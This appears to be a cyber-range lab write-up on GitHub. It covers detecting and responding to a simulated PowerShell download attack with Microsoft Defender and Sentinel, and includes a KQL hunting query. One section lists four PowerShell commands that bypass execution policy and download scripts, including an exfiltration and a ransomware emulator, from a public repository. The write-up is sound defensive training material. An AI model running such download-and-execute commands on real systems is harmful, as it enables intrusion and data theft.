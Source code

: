 <p align="center">
  <img src="https://github.com/user-attachments/assets/5bcf7097-5ce0-4663-b768-8ff22f641eff" alt="Description" width="1200">
</p>

# PowerShell-Suspicious-Web-Request

## Platforms and Languages Leveraged
- Windows 10 Virtual Machines (Microsoft Azure)
- Microsoft Sentinel 
- EDR Platform: Microsoft Defender for Endpoint
- Kusto Query Language (KQL)

---

##  Scenario

Sometimes when a bad actor has access to a system, they will attempt to download malicious payloads or tools directly from the internet to expand their control or establish persistence. This is often achieved using legitimate system utilities like PowerShell to blend in with normal activity. By leveraging commands such as Invoke-WebRequest, they can download files or scripts from an external server and immediately execute them, bypassing traditional defenses or detection mechanisms. This tactic is a hallmark of post-exploitation activity, enabling them to deploy malware, exfiltrate data, or establish communication channels with a command-and-control (C2) server. Detecting this behavior is critical to identifying and disrupting an ongoing attack.

---

## Detection & Analysis

An alert titled “Kyle – PowerShell Suspicious Web Request” was triggered on the device kylesvm. During investigation, it was discovered that the following four distinct PowerShell web requests were executed using Invoke-WebRequest to download scripts from a GitHub repository:

---

## PowerShell Commands Executed:

- powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range /entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1

- powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range /entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1

- powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range /entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1
  
- powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range /entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
---

## Interview 

The incident was tied to a single user on one device. When contacted, the user reported attempting to install free software, after which a black screen appeared briefly with no noticeable outcome.

---

## Execution Confirmation

Using Microsoft Defender for Endpoint (MDE), it was confirmed that the scripts were executed on the host. The following KQL query was used to verify execution:

**Query used to locate events:**

```kql
let TargetHostname = "kylesvm";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]); DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
| summarize Count = count() by AccountName, DeviceName, FileName, ProcessCommandLine
```
---

## Malware Analysis Summary

The downloaded scripts were submitted to the malware reverse engineering team, and the following behaviors were identified:

- exfiltratedata.ps1 Generates simulated employee data, compresses it via 7-Zip, and uploads it to Azure Blob Storage to emulate data exfiltration.
- eicar.ps1 Creates the EICAR test file used to simulate antivirus detection and response mechanisms.
- portscan.ps1 Performs a network scan over a local IP range for common open ports, logging the results.
- pwncrypt.ps1 Emulates ransomware by generating fake files, encrypting them, and leaving ransom instructions on the desktop.

---
  
## Containment, Eradication & Recovery

- The affected device (kylesvm) was isolated via MDE.
- A full anti-malware scan was performed.
- No active malware was found; the device was subsequently removed from isolation. 

---

## Post-Incident Activities

- The involved user was required to complete additional security awareness training.
- The organization’s KnowBe4 security package was upgraded, and training frequency
increased.
- A new PowerShell usage policy was introduced to restrict PowerShell access for
non-essential users. 
